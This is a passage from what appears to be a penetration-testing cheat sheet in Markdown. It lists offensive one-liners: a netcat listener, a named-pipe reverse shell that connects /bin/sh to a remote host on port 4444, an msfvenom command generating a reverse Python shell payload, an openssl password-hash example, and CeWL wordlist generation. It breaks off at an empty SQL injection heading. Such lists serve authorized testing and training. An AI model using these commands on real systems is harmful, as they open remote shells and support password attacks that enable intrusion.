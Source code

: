 ```
nc -lcnp {PORT}
```

<a name="ReverseShellUsingBackpipe"></a>
### Reverse Shell Using Backpipe

```
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc 192.168.1.116 4444 1>/tmp/backpipe
```

<a name="Payloads"></a>
# Payloads

<a name="LinuxReversePythonRaw"></a>
### Linux Reverse Python Raw

```
msfvenom -p cmd/unix/reverse_python LHOST={HOST_IP} LPORT={HOST_PORT} -f raw
```

<a name="LinuxPass"></a>
# Linux Password

<a name="PasswordHash"></a>
### Password Hash

```
openssl passwd -1 -salt root root
$1$root$9gr5KxwuEdiI80GtIzd.U0
```

<a name="CustomWordlists"></a>
# Custom Wordlists

<a name="Cewl"></a>
### Cewl

```
cewl http://192.168.1.101/index.html > wordlist.txt
cewl {FILE} > wordlist.txt
cewl {URL} > wordlist.txt
```

<a name="SQLi"></a>
# SQL Injection

<a name="Analysis"></a>
### Analysis
